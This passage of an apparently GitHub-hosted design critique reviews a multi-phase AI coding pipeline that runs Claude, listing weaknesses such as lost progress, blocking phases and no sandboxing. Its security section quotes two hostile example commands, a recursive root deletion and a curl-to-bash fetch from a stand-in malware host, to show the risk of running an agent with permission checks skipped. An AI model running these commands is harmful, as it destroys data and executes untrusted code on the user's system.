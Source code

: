 ### 10. No Partial Progress Tracking
**Problem**: If phase fails after 90% completion, we lose everything.

```python
# Implement phase:
# - Created src/calculator.py ✓
# - Created main.py ✓
# - Creating tests... 
# - Hit 30 turn limit
# Result: Everything deleted, start over
```

## Architectural Concerns

### 1. Synchronous Blocking Design
Despite "async" in the name, phases block each other unnecessarily.

```
Research (2 min) → Planning (2 min) → Implementation (3 min) → ...
Total: 15+ minutes of waiting
```

Better: Research + Planning in parallel, then Implementation.

### 2. No Feedback Loop
Phases can't communicate back to previous phases.

Example: Test phase discovers implementation bug, but can't tell implementation phase to fix it.

### 3. Hardcoded Phase Sequence
The 9-phase sequence is rigid. What if a project doesn't need integration tests? Still runs the phase.

### 4. No Learning from Failures
System doesn't remember what failed before.

```python
# Run 1: TypeError in calculator.py line 42
# Run 2: Makes same TypeError in calculator.py line 42
# No memory of previous failures
```

## Security & Reliability Issues

### 1. Arbitrary Code Execution
Claude can run ANY bash command with `--dangerously-skip-permissions`.

```python
# Claude could run:
# rm -rf /
# curl evil.com/malware.sh | bash
# No sandboxing
```

